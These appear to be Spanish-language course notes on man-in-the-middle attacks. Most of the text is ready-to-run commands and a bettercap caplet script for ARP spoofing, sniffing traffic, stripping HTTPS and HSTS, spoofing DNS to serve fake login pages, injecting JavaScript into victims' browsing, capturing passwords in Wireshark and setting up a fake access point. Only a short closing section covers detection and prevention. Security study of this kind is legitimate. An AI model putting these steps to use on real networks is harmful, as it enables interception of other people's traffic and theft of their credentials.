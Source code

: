 MITM ATTACKS:

ARP Spoofing (ARPSPOOF O BETTERCAP):
ARP address resolution protocol se usa para mapear ip direcionas a los mac
para ver la tabla arp
	arp -a 
el ataque consiste en explotar el protocolo arp para que se rescriba la tabla arp en el cliente y ruter para que uno piense que 
somo el ruter y otro que somos la victima de esta forma podemos interseptar los datos
ARPSPOOF:
	echo 1 > /proc/sys/net/ipv4/ip_forward
	arpspoof -i [interface wlan0] -t [clientIP] [gatewayIP]
	arpspoof -i [interface] -t [gatewayIP] [clientIP]
si coremos arp-a en el ordenador victima veremos que la mac de los ips esta cambiada
BETTERCAP:
	ifconfig
	bettercap -iface eth0 
in bettercap console:
	net.probe on 
descubre cliente conectados a la net tambien activa net.recon que crea una lista con ips y macs por lo que podemos hacer
	net.show
arp spoof atack
	help arp.spoof
	set arp.spoof.fullduplex true
	set arp.spoof.targets x.x.x.x
	arp.spoof on
para que funcione net.probe y net.recon tienen que estar funcionando
para capturar todos los datos que fluyen por el ordenador nesecitamos net.sniff
	net.sniff on
ahora podemos ver la informacion enviada en http

script para bettercap podemos poner todos estos comandos en un archivo de texto y guardarlo con extencion .cap para ejecutarlos simultaneamente la proxima vez
	bettercap -iface eth0 -caplet file.cap

Bypassing HTTPS:
La forma mas simple es downgrade https to http para eso se usa ssl strip como metodo avanzado pero en bettercap tenemos un caplet que nos ayuda con eso 
pero no cambia todos los https a http
descargamos el archivo hstshijack y lo movemos a ctrl+L /usr/share/bettercap/caplets/ antes eliminamos el que existe en la carpeta
para que esto funcione antes de correr net.sniff on coremos 
	set net.sniff.local true
para capturar datos que incluso sean locales porque despues de usar el caplet la informacion aparecera como si fuera enviada desde nuestro ordenador

script.cap
net.probe on
net.recon on
set arp.spoof.fullduplex true
set arp.spoof.targets x.x.x.x,x.x.x.x
arp.spoof on
set net.sniff.local true
net.sniff on

Bypassing HTTPS
	bettercap -iface eth0 -caplet file.cap
para ver todos los coplets
	caplets.show
usamos el caplet
	hstshijack/hstshijack

Bypassing HSTS
la forma de sobrepasar HTST es hacer que el navegador carge una web diferente con algun caracter en el dominio cambiado
realizamos el ataque igual que antes y si la victima entra usando el buscador en una web capturamos su contraseña

DNS Spoofing:
DNS sever convierte los nombres de dominio a los ips de los servidores donde se encuentra la pagina hackeando este podemos
devolver nuestra web local en vez de la que solicitan
	service apache2 start
	ifconfig
podemos ir a nuestra ip para ver la pagina basica y modificar su html
	bettercap -iface eth0 -caplet file.cap
	help dns.spoof
	set dns.spoof.all true
	set dns.spoof.domains zsecurity.org,*.zsecurity.org
esto funcionara con todas las webs incluso si usan https pero no con hsts podemos usarlo para cambiar la pagina de login
inllectar codigo malicioso o proporcinar actualizaciones falsas

Injecting Javascript Code:
raplace links, replace images, insert html images, hook target browsers to explotation frameworks 
en hstshijack.cap espesificamos el archivo de js en payloads podemos espesificar vaios archivos separando con "," y indicando el path
el codigo se ejecutara en http, https y en hsts solo si se busca a travez del navegador
	bettercap -iface eth0 -caplet file.cap
	hstshijack/hstshijack

WIRESHARK:
se usa para analizar el trafico que corre por tu interface
cuando somos MITM usamos wireshark para capturar y analizar el trafico
si usamos ierodump o otros programas para capturar trafico podemos abrir el archivo en wireshark
selecionamos el interface que usamos para realizar el ataque
	bettercap -iface eth0 -caplet file.cap
	hstshijack/hstshijack
y selecionamos el interface en el programa wireshark para analizar el trafico
podemos filtrar todo el trafico para ver el http lo mas importante de los aquetes es el Hypertext transfer protocol 
basicamente la informacion enviada
podemos pulsar boton derecho follow http stream para ver la respuesta al request
para descubrir usuarios y contraseñas buscamos POST vemos si hay /login
podemos pulsar CTRL+F nos abre una barra donde podemos buscar informacion en los paquetes capturados
en bettercap script podemos espesificar que guarde toda la informacion a un archivo que luego podemos analizar
	
script.cap
net.probe on
net.recon on
set arp.spoof.fullduplex true
set arp.spoof.targets x.x.x.x,x.x.x.x
arp.spoof on
set net.sniff.local true
set net.sniff.output /root/capturefile.cap
net.sniff on

Creating a Fake Access Point
Necesitamos un ordenador con internet y un adaptador wifi que pueda repartir internet
usamos mana-toolkit que se usa para sobrepasar https capturar datos, crear puntos de haceso....
mana tiene 3 scripts prinsipales pero el que vamos a usar es start-nat-simple que cre AP con acceso a internet
	leafpad /etc/mana-toolkit/hostapd-mana.conf
modificamos el interface a nuestro adaptador y ssid que es con que nombre aparecera el punto de aceso
	leafpad /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
upstream ponemos el interface que tiene aceso a internet, phy el adaptador que repartira la conexion
	bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
ahora podemos usar wireshark o man in the midle F para analizar el trafico tenemos que usar la interface 
que esta repartiendo la señal

Detectar Arp Poisoning:
comprovamos que los mac de las ips son unicos
	arp -a
podemos usar la heramienta XArp

Detectar actividades sospechosas en la red con Wireshark:
edit - preferences -protocols -arp - detect ARP requests
de esta forma podemos detectar si algien intenta descubrir todos los dispositivos en la red
si vemos que una ip envia varios arp request a todos los ips esque esta escaneando la red
analize - expert information - (vemos warning con duplicate ip y ARP packet storm en note)
Otra forma es poner tablas Arp Estaticas

Para prevenir el ataque MITM:
Usamos HTTPS evrywher plugin
Usamos VPN

